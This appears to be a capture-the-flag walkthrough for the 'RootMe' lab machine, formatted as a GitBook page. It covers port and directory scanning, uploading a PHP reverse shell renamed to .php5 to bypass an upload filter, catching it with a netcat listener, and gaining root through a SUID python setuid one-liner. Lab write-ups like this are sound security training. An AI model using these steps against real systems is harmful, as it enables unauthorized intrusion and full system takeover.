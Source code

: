 ```yaml
---
cover: ../../.gitbook/assets/e28.png
coverY: 0
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# RootMe

```bash
kali@attack> nmap -p- -T4 10.10.123.52
kali@attack> nmap -p 80,22 -sV 10.10.123.52
kali@attack> gobuster dir -u http://10.10.123.52/ -w /usr/share/wordlists/dirb/common.txt
kali@attack> cp /usr/share/webshells/php/php-reverse-shell.php shell.php5
```

* Edit the file `shell.php5` with the local IP address and the local port.
* Go to http://10.10.123.52/panel and upload the file `shell.php5`.
* Create a listener.

```bash
kali@attack> nc -lnvp 1234
```

* Execute the file http://10.10.123.52/uploads/shell.php5 and you will get the reverse shell as `www-data` user.
* Find weird binaries.

```bash
www-data@target> find / -perm -a=s 2>/dev/null
```

* The weird binary is `/usr/bin/python`.
* Set the UID with the below script and gain `root` access.

```bash
www-data@target> python -c "import os;os.setuid(0);import pty;pty.spawn('/bin/bash')"
root@target> cat /root/root.txt
```
